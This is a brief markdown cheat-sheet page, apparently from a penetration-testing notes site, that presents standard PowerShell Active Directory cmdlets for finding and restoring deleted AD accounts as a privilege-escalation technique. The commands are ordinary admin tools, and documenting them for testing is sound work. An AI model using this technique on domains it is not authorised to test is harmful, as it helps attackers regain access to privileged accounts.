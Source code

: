 ```yaml
---
title: "AD Recycle Bin"
date: 2024-7-13
tags: ["Domain Controller", "AD Recycle Bin", "Active Driectory", "Windows"]
---
```


### Privesc #1: Restore deleted AD account

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import AD module

```console
import-module activedirectory
```

#### 2. Query all deleted objects within domain

```console
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

#### 3. Get all details for the deleted account

```console
Get-ADObject -filter { SAMAccountName -eq <DELETED_USER> } -includeDeletedObjects -property *
```

#### 4. Restore the deleted account

```console
# Rename the target account to avoid user exists error
Restore-ADObject -Identity <OBJECT_GUID> -NewName '<NEW_USER>' -TargetPath 'CN=Users,DC=<EXAMPLE>,DC=<COM>'
```

{{< /tabcontent >}}

